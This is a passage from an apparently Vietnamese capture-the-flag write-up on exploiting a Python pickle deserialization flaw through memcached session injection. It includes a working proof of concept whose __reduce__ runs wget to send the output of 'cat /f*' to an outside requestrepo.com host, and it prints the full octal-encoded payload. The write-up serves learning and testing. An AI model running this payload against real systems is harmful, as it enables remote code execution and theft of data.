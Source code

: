 ```

    return f"\"{pack}\""
```

- Payload này sẽ thực hiện gửi các gói tin trong command os:
- ![image](https://hackmd.io/_uploads/rJyhn9NRp.png)

- Trên đây là hình ảnh gói tin bắt được ở wireshark.
* ATTACK

- Dùng POC trên:

```

import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget http://s6thtnzk.requestrepo.com/$(cat /f*)')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'\r\nset session:46db9856-90d1-4661-8935-9c8b4871a2aa 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:46db9856-90d1-4661-8935-9c8b4871a2aa')
    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
print(generate_exploit())

```
- Bởi bì session giới hạn số kí tự nên ta có thể sử dụng như trên.
- Lưu ý là build payload bằng linux hoặc ubuntu.
![image](https://hackmd.io/_uploads/rJKoRcN0a.png)

![image](https://hackmd.io/_uploads/BysH1oNR6.png)

```
"\015\012\163\145\164\040\163\145\163\163\151\157\156\072\064\066\144\142\071\070\065\066\055\071\060\144\061\055\064\066\066\061\055\070\071\063\065\055\071\143\070\142\064\070\067\061\141\062\141\141\040\060\040\062\065\071\062\060\060\060\040\067\071\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\072\057\057\163\066\164\150\164\156\172\153\056\162\145\161\165\145\163\164\162\145\160\157\056\143\157\155\057\044\050\143\141\164\040\057\146\052\051\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\064\066\144\142\071\070\065\066\055\071\060\144\061\055\064\066\066\061\055\070\071\063\065\055\071\143\070\142\064\070\067\061\141\062\141\141"
```
